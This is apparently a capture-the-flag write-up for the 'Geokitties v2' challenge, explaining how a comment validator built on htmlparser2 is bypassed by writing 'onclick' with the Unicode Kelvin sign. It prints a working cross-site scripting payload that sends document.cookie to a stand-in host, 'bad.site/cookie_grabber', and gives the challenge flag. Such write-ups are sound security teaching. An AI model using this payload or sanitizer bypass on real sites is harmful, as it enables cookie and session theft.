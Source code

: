 ## Geokitties v2

The goal of this challenge is to steal the flag stored in the admin's cookies.

When a comment is successfully posted, the page states that the comment is "awaiting approval" and that the admin will click on every link within. A quick check with a link to a controlled site shows that this is the case. This seems like a promising point of exfiltration: registering an `onclick` event to submit `document.cookie` to an external site via URL parameters. Unfortunately, `check_comment` (`blog.js:51-93`) only accepts event handlers with empty values. Is there a way around this?

What about duplicate attributes?

    <a href="#" onclick="" onclick="...xss...">...</a>

The validator accepts this comment! But the `onclick` code isn't called... why? The [HTML5 standard](https://www.w3.org/TR/html5/syntax.html#attributes-0) says that this isn't valid (read: "There must never be two or more attributes on the same start tag whose names are an ASCII case-insensitive match for each other."). In practice, browsers ignore any repeated attributes, so the first `onclick` is the only one that takes effect. Since the comment was accepted, it's clear that the validator follows this rule as well.

Let's try something else. The regular expression in `check_comment` checks for tag attributes starting with lowercase `on`. How about using alternative cases like `ONclick`?

    <a href="#" ONclick="...xss...">...</a>

This doesn't work either. The validator rejects the comment. Clearly, the attributes are being converted to lowercase. A quick glance through the source code of `htmlparser2` reveals that [this is achieved via `String.prototype.toLowerCase()`](https://github.com/fb55/htmlparser2/blob/ef0f27c481262086697f5d1893a931682cd7fb1f/lib/Parser.js#L232-L234)... which is a Unicode-aware function.

The W3C standard was clear that attributes are distinct if and only if they are not *ASCII* case-insensitive matches, meaning only letters `A-Z` are converted to lowercase. In Unicode, *any* codepoint may map to a lowercase codepoint. Are there any non-Latin uppercase variants of any of the letters in `onclick`?

Of course! Enter `K`---not to be confused with the Latin uppercase `K`. The former is `U+212A KELVIN SIGN`. As far as any standards-abiding web browser is concerned, `onclicK` with `U+212A` is a different attribute from `onclicK`. Meanwhile, `htmlparser2` considers them the same. Thus, the following code will validate:

    <a href="#" onclicK="" onclick="javascript:window.location='https://bad.site/cookie_grabber?cookie=' + document.cookie; return false;">Click me!</a>

and when the "administrator" clicks on the link (i.e. immediately), `bad.site` obtains the flag via URL parameter.

`document.cookie` was `flag=CTF{i_HoPe_YoU_fOunD_tHe_IntEndeD_SolUTioN_tHis_Time}`.
